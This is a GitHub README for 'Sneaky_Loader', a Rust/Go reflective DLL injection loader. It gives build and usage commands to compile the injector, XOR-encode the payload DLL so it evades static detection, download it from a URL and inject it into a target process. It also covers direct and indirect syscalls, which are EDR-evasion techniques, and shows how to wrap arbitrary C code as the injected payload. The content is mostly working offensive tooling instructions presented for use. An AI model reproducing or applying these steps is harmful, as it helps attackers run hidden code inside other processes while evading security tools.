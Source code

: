 # Sneaky_Loader
Custom loader - Rust/Go Dll Reflective Injection - Supports 32/64 bits but not ARM for the moment

Support direct syscall

# How to use it ?

1. Clone the repo
```
git clone <repo>
```

2. x32 - Compile the 32 bits dll
```
cd RustyLoader
rustup target add i686-pc-windows-msvc
cargo build --target=i686-pc-windows-msvc --release
```

2. x64 - Compile the 64 bits dll
```
cd RustyLoader
cargo build --release
```

3. x32 - Copy the compiled dll
```
Copy-Item .\target\i686-pc-windows-msvc\release\rusty_inject.dll -Destination ..\GogoInjector\
```

3. x64 - Copy the compiled dll
```
Copy-Item .\target\release\rusty_inject.dll -Destination ..\GogoInjector\
```

Optional - xor the dll to avoid static detection on memory inspection after the dll download. 

```
inject.go -encode "rusty_inject.dll"
```

A .enc version of the dll is produced. No need to specify to the injector that it is encoded, it will detect it by itself.

4. x32 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="386"
go build .\inject.go
```

4. x64 - Compile the injector
```
cd GogoInjector
go get github.com/Binject/debug/pe
go get golang.org/x/sys/windows
$env:GOARCH="amd64"
go build .\inject.go
```

5. Test it

x32 : 
Spawn a 32 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\SysWOW64\cmd.exe" -PassThru
$process.Id
```

x64 : 
Spawn a 64 bits process and get its pid :
```
$process = Start-Process -FilePath "C:\Windows\System32\cmd.exe" -PassThru
$process.Id
```

Inject the dll :

Usage :
```
.\inject.exe 
  -encode string
        path of the dll to encode
  -local string
        Local file path
  -pid int
        Process ID
  -s    direct syscall flag (only for 64 bits process)
  -i    indirect syscall flag (only for 64 bits process)
  -url string
        URL of the file
```

Example
```
.\inject.exe -pid  21108 -url http://127.0.0.1:8080/rusty_inject.dll
```
![Alt text](/assets/injected2.png)

NOTE : direct syscall is supported on 64 bits. Use -s flag. Direct syscalls are resolved from an encoded SSN json database generated with https://github.com/maxspl/SSN_db
NOTE : indirect syscall is supported on 64 bits. Use -i flag. Direct syscalls are resolved from an encoded SSN json database generated with https://github.com/maxspl/SSN_db

```
.\inject.exe -pid  21108 -url http://127.0.0.1:8080/rusty_inject.dll
```

6. Inject C program : from .c file 

- Add your C code in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
```

- Modify Cargo.toml
```
[dependencies]
ntapi = "0.4.0"
winapi = { version = "0.3", features = ["winuser"] }

[build-dependencies]
cc = "1.0"

[build]
rustc-flags = "-L native=target/release/ -l static:cdll"
```

- Create a build.rs file in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- c_code.c
|-- build.rs
```

Content :
```
fn main() {
    cc::Build::new()
        .file("c_code.c")
        .compile("cdll");
}
```
- Modify lib.rs :

```
extern crate winapi;
extern "C" {
    fn show_message();
}
```

```
if call_reason == DLL_PROCESS_ATTACH {
main_function_from_c_code()
}
```

6. Inject C program : from static library

- Compile c code as object file :
```
gcc -c c_code.c -o c_code.o
```

- Compile as static library  :
```
ar rcs staticlib.lib c_code.o 
```

- Add your static library to libs/ :
```
RustyLoader/
|-- Cargo.toml
|-- libs/
    |-- staticlib.lib
|-- src/
    |-- lib.rs
    |-- loader.rs
```

- Modify Cargo.toml
```
[package]
build = "build.rs"
```

- Create a build.rs file in RustyLoader :
```
RustyLoader/
|-- Cargo.toml
|-- libs/
    |-- staticlib.lib
|-- src/
    |-- lib.rs
    |-- loader.rs
|-- build.rs
```

Content :
```
fn main() {
    // Tell Cargo where to find the static library
    println!("cargo:rustc-link-search=./libs");

    // Tell Cargo to link our static library
    println!("cargo:rustc-link-lib=static=staticlib");
}

```
- Modify lib.rs :

```
extern "C" {
    fn show_message();
}
```

```
if call_reason == DLL_PROCESS_ATTACH {
main_function_from_c_code()
}
```

# How to use the debug version ?

The directory debug_RustyLoader contains a verbose version of the RustyLoader. 
It works in a slightly different way :

	- It is an exe, not a dll. 
	- It operates as an injector and also a loader.
	- It reads the dll named debug_dll.dll in /dll_to_inject .
	- It loads the raw dll in the self process memory and perfoms all the loading operations as RustyLoader would do but with verbose printed logs. Once loaded, it calls dllmain.

Put the dll to be tested in the directory debug_RustyLoader\dll_to_inject and name it debug_dll.dll.
```
cd debug_RustyLoader
cargo run --target=i686-pc-windows-msvc
```
![Alt text](/assets/injected_verbose.png)

# References
    - https://github.com/stephenfewer/ReflectiveDLLInjection
    - https://github.com/memN0ps/arsenal-rs/tree/main/rdi-rs
    - https://github.com/C-Sto/BananaPhone/tree/master